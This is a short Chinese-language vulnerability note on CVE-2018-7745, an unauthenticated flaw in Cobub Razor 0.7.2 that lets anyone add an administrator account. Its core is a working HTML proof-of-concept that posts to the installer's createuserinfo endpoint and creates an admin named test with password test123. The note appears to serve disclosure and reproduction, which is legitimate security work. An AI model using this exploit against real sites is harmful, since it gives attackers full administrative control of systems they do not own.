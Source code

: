 ```yaml
---
title: （CVE-2018-7745）Cobub Razor 0.7.2 越权增加管理员账户
id: zhfly2848
---
```


# （CVE-2018-7745）Cobub Razor 0.7.2 越权增加管理员账户

## 一、漏洞简介

Cobub Razor 0.7.2越权增加管理员账户漏洞，在不登录的情况下发送特定数据包，可新增管理员账号。保存如下利用代码为html页面，打开页面将增加test/test123的管理员账号，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/161)告知作者。

## 二、漏洞影响

Cobub Razor 0.7.2

## 三、复现过程

### POC

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.0-sec.org/index.php?/install/installation/createuserinfo" method="POST">
      <input type="hidden" name="siteurl" value="http://127.0.0.1/" />
      <input type="hidden" name="superuser" value="test" />
      <input type="hidden" name="pwd" value="test123" />
      <input type="hidden" name="verifypassword" value="test123" />
      <input type="hidden" name="email" value="12@qq.com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```